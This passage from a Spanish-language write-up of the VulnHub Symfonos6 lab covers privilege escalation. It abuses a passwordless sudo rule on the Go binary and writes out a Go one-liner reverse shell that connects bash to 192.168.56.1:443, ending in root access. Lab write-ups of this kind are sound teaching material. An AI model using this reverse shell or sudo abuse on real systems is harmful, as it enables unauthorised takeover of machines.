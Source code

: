 Si ejecutamos sudo -l vemos algo interesante.

```bash
[achilles@symfonos6 symfonos-blog.git]$ sudo -l
Matching Defaults entries for achilles on symfonos6:
    !visiblepw, always_set_home, match_group_by_gid, env_reset, env_keep="COLORS DISPLAY HOSTNAME HISTSIZE KDEDIR LS_COLORS", env_keep+="MAIL PS1 PS2 QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE", env_keep+="LC_COLLATE
    LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES", env_keep+="LC_MONETARY LC_NAME LC_NUMERIC LC_PAPER LC_TELEPHONE", env_keep+="LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET XAUTHORITY", secure_path=/sbin\:/bin\:/usr/sbin\:/usr/bin

User achilles may run the following commands on symfonos6:
    (ALL) NOPASSWD: /usr/local/go/bin/go
```

Copiamos lo siguiente en un archivo.

```bash
echo 'package main;import"os/exec";import"net";func main(){c,_:=net.Dial("tcp","192.168.56.1:443");cmd:=exec.Command("bash");cmd.Stdin=c;cmd.Stdout=c;cmd.Stderr=c;cmd.Run()}' > /tmp/t.go && go run /tmp/t.go && rm /tmp/t.go
```

Ejecutamos lo siguiente.


```bash
[achilles@symfonos6 symfonos-blog.git]$ sudo -u root /usr/local/go/bin/go run /tmp/t.go
```


## Shell - root 

Finalizamos la máquina con acceso a root.

![](/assets/images/vulnhub-writeup-symfonos6/symfonos-root.png)


